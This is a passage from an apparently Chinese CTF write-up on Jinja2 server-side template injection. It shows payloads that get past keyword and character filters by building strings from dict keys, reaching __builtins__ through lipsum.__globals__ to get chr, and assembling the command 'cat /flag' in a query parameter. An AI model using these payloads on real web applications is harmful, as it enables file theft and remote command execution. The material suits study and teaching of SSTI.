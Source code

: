 获取chr

```cobol
 
{%set one=dict(c=a)|join|count%}
{%set two=dict(cc=a)|join|count%}
{%set three=dict(ccc=a)|join|count%}
{%set four=dict(cccc=a)|join|count%}
{%set five=dict(ccccc=a)|join|count%}
{%set six=dict(cccccc=a)|join|count%}
{%set seven=dict(ccccccc=a)|join|count%}
{%set eight=dict(cccccccc=a)|join|count%}
{%set nine=dict(ccccccccc=a)|join|count%}
{%set pop=dict(pop=a)|join%}
{%set xiahuaxian=(lipsum|string|list)|attr(pop)(three*eight)%}
{%set globals=(xiahuaxian,xiahuaxian,dict(globals=a)|join,xiahuaxian,xiahuaxian)|join%}
{%set get=dict(get=a)|join%}
{%set shell=dict(o=a,s=b)|join%}
{%set pp=dict(po=a,pen=b)|join%}
{%set builtins=(xiahuaxian,xiahuaxian,dict(builtins=a)|join,xiahuaxian,xiahuaxian)|join%}
{%set char=(lipsum|attr(globals))|attr(get)(builtins)|attr(get)(dict(chr=a)|join)%}
{%print char%}
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/d324c353acb22522348c97745c8e0e4e.png" alt="" style="max-height:703px; box-sizing:content-box;" />


成功

然后就是通过char拼接命令

```cobol
?name={%set one=dict(c=a)|join|count%}
{%set two=dict(cc=a)|join|count%}
{%set three=dict(ccc=a)|join|count%}
{%set four=dict(cccc=a)|join|count%}
{%set five=dict(ccccc=a)|join|count%}
{%set six=dict(cccccc=a)|join|count%}
{%set seven=dict(ccccccc=a)|join|count%}
{%set eight=dict(cccccccc=a)|join|count%}
{%set nine=dict(ccccccccc=a)|join|count%}
{%set pop=dict(pop=a)|join%}
{%set xiahuaxian=(lipsum|string|list)|attr(pop)(three*eight)%}
{%set globals=(xiahuaxian,xiahuaxian,dict(globals=a)|join,xiahuaxian,xiahuaxian)|join%}
{%set%20get=dict(get=a)|join%}
{%set builtins=(xiahuaxian,xiahuaxian,dict(builtins=a)|join,xiahuaxian,xiahuaxian)|join%}
{%set char=(lipsum|attr(globals))|attr(get)(builtins)|attr(get)(dict(chr=a)|join)%}
{%set command=char(five*five*four-one)%2bchar(five*five*four-three)%2bchar(four*five*six-four)%2bchar(four*eight)%2bchar(six*eight-one)%2bchar(three*six*six-six)%2bchar(three*six*six)%2bchar(five*five*four-three)%2bchar(three*six*six-five)%}
{%print command%}
```
